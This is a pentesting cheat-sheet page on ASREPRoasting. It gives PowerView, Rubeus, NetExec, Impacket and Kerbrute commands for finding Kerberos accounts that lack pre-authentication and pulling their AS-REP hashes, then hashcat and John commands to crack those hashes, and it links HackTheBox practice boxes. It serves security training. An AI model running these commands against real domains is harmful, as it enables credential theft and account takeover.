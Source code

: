 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# ASREPRoasting

## TL;DR&#x20;

**ASREPRoasting** is an attack on the initial Kerberos authentication step and it is usually performed **after obtaining a list of valid domain users**. If an account has the [Do not require Kerberos pre-authentication](https://www.tenable.com/blog/how-to-stop-the-kerberos-pre-authentication-attack-in-active-directory) setting enabled then everyone can request from the DC to authenticate as that account and receive an **Authentication Service - Response (AS-REP)**. The AS-REP contains the **TGT** which is encypted with the account's password hash which, depending on its strength, can be potentially cracked.

<figure><img src="../../../../.gitbook/assets/kerberos_process.png" alt=""><figcaption><p>Figure 1: The Kerberos authentication process (image taken from <a href="https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel">here</a>).</p></figcaption></figure>

## Windows <a href="#windows" id="windows"></a>

{% tabs %}
{% tab title="PowerView (UserEnum)" %}
{% code overflow="wrap" %}
```powershell
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
```
{% endcode %}
{% endtab %}

{% tab title="Rubeus" %}
```powershell
.\Rubeus.exe asreproast /nowrap /format:hashcat
```
{% endtab %}
{% endtabs %}

## Linux <a href="#linux" id="linux"></a>

{% tabs %}
{% tab title="NetExec" %}
```bash
nxc ldap 10.10.10.161 -u users.lst -p '' --asreproast asreproast.lst
```
{% endtab %}

{% tab title="Impacket" %}
```bash
GetNPUsers.py DOMAIN/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users.lst
```
{% endtab %}

{% tab title="Kerbrute" %}
```bash
kerbrute userenum -d DOMAIN --dc 172.16.5.5 /opt/jsmith.txt 
```
{% endtab %}
{% endtabs %}

## Hash cracking

{% tabs %}
{% tab title="Hashcat" %}
```
hashcat -m 18200 user_hash /usr/share/wordlists/rockyou
```
{% endtab %}

{% tab title="John" %}
{% code overflow="wrap" %}
```bash
john --format=krb5asrep --wordlist=/usr/share/wordlists/rockyou.txt --fork=4 asreproastable_users
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Practice

{% tabs %}
{% tab title="Forest (Easy)" %}
{% content-ref url="../../../../boxes/boxes/easy/forest.md" %}
[forest.md](../../../../boxes/boxes/easy/forest.md)
{% endcontent-ref %}
{% endtab %}

{% tab title="Sauna (Easy)" %}
{% content-ref url="../../../../boxes/boxes/easy/sauna.md" %}
[sauna.md](../../../../boxes/boxes/easy/sauna.md)
{% endcontent-ref %}
{% endtab %}

{% tab title="Blackfield (Hard)" %}
{% content-ref url="../../../../boxes/boxes/hard/blackfield.md" %}
[blackfield.md](../../../../boxes/boxes/hard/blackfield.md)
{% endcontent-ref %}
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="Kerberos" %}
{% embed url="https://blog.notso.pro/2020-05-07-offops-in-ad-0/" %}
A great article detailing each step of the Kerberos process.
{% endembed %}
{% endtab %}

{% tab title="GetNPUsers" %}
{% embed url="https://www.youtube.com/watch?v=pZSyGRjHNO4" %}
The workings of GetNPUsers script!
{% endembed %}
{% endtab %}

{% tab title="Demo" %}
{% embed url="https://www.youtube.com/watch?v=wA9w8t1fRWo" %}
ASREPRoasting in 10 minutes!
{% endembed %}
{% endtab %}
{% endtabs %}
